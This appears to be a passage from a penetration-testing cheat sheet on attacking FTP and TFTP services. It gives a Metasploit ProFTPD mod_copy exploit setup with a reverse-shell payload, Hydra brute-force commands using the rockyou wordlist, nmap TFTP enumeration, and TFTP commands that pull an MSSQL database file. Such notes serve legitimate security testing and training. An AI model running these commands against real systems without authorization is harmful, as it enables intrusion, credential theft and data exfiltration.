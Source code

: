 *Metasploit*

```text
use exploit/unix/ftp/proftpd_modcopy_exec
set payload cmd/unix/reverse_python
set SITEPATH /var/www/html
```


**Brute-Force**

Check possibilities for generating custom wordlist using,
- `cewl`
- `wordhound`

Check for `brute-force` possibilities using,
- `Crackmapexec`
- `Hydra`


```bash
USER="" ; hydra -I -l ${USER} -P /usr/share/wordlists/rockyou.txt ${IP} -t 20 ftp
hydra -I -L users.txt -P /usr/share/wordlists/rockyou.txt ${IP} -t 20 ftp
```

```text

```


#### TFTP (UDP)

**General Methodology**
> Run `nmap` to gather service specific information and vulnerability information.
> Check if upload/download is allowed.


**Enumeration**

Enumerate with `nmap nse` to find additional information.

```bash
sudo nmap -n -Pn -sU -T4 -p U:69 --script "tftp-enum" -sV -oA recon/nmap-${IP}-tftp ${IP}
```

```text

```


**Access**

```bash
tftp -i ${IP}
```

```bash
tftp -i ${IP} -m binary -c get '\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\DATA\master.mdf'
echo test > test.txt ; tftp -i ${IP} -c put test.txt
```

```text

```
